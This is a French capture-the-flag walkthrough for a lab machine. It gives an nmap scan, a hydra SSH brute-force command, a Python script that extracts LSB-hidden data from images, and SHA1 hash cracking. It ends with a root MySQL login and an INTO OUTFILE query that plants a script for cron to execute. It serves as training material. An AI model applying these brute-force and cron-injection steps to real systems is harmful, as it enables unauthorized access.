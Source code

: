 # Walktrought CTF_Moyen_2020-2021 Groupe 4

## Avant Propos :

Ce CTF s'axe sur 3 catégories : 
- De la steganographie
- De la cryptographie
- Du système



## Etape 1

L'utilisateur lorsque qu'il est sur la machine n'aura en premier lieu accès à un /home où il n'y aura de présent que plusieurs images, dont une contiendra un hash.

Via un autre machine l'utilisateur devra faire un 
```bash
nmap -sV -sC [ipmachine]
hydra -L user.txt -P rockyou.txt 10.10.219.212 ssh
```
Il pourra s'apercevoir qu'un service mysql est ouvert celui sera protéger par un mot de passe et face aux tentatives de bruteforce.

De plus toutes les minutes sur sa console apparaitera un message lui indiquant que des scripts ont été bougé ainsi que l'heure de la machine.

## Etape 2

L'utilisateur va dans un second temps parcourir les fichiers sur l'espace utilisateur et trouvera des images dans le dossier Documents.
Ces images auront été modifié par un script python afin d'y dissimuler le mot de passe du port sql, le numéro : 3306.

```py

from os import putenv
from PIL import Image
import numpy as np
import sys


def get_msg(input_file):
    img = Image.open(input_file)
    width, height = img.size
    data = np.array(img)

    data = np.reshape(data, width*height*4)
    # On ne regarde que le LSB de chaque pixel
    data = data & 1
    # On transoorme le tout en string de 8 bit de binaire

    """packbit function (from numpy doc)

    Packs the elements of a binary-valued array into bits in a uint8 array.

    The result is padded to full bytes by inserting zero bits at the end.
    """
    data = np.packbits(data)

    # On lit le tout et on convertit en acii jusqu'a qu'on tombe sur un caractère non pritable
    for x in data:
        l = chr(x)
        if not l.isprintable():
            break
        print(l, end='')


def main(argv):
    get_msg(argv[1])


if __name__ == "__main__":
    main(sys.argv)
```
## Etape 3

Le mot de passe étant hashé en SHA1, l'attaquant devra le déhashé en utilsant les rainbow table ou alors à l'aide d'un site web.

## Etape 4

L'attaquant devra ensuite faire une demande de connexion SQL sur le port en question.

```bash
mysql -h [ip.host] -u root -p[PASSWORD]

```

## Etape 5

Une fois connecté au port SQL avec les droits root, l'utilisateur sera en possibilité d'executer des requêtes SQL pour placer un dossier dans la data directory de mysql, qui sera ensuite deplacé dans un fichier où il sera executé par cron.

```bash
use scripts
SELECT text_script FROM script WHERE nom_script='remind_admin_psswq.sh' INTO OUTFILE 'pass.sh';
```

Dans son terminal, s'affichera ainsi l'heure ainsi que le mot de passe admin, il pourra ainsi acceder au compte admin.